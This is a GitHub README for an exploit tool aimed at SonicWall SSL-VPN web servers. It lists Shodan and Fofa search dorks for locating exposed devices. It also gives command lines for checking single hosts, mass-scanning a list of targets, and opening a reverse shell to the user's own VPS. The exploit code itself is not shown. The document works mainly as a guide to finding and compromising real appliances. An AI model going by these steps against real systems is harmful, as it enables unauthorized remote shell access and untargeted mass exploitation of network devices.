


# SonicWall_SSL-VPN_EXP
SonicWALL SSL-VPN Web Server Vulnerable Exploit



### Dork

Shodan:

http.favicon.hash:-1153950306

http.favicon.hash:-2012355198

Fofa:

(body="login_box_sonicwall" || header="SonicWALL SSL-VPN Web Server") && body="SSL-VPN"

### Usage

vulnerability verification for individual websites

```python
python POC.py -u https://1.1.1.1
```

reverse shell to your VPS host

```python
python POC.py -e https://1.1.1.1 -rh 2.2.2.2 -rp 9999
```

perform vulnerability checks on multiple websites in a file, and the vulnerable websites will be output to the success.txt file

```python
python3 POC.py -f urls.txt
```



### Reference

https://twitter.com/chybeta/status/1353974652540882944

https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit/


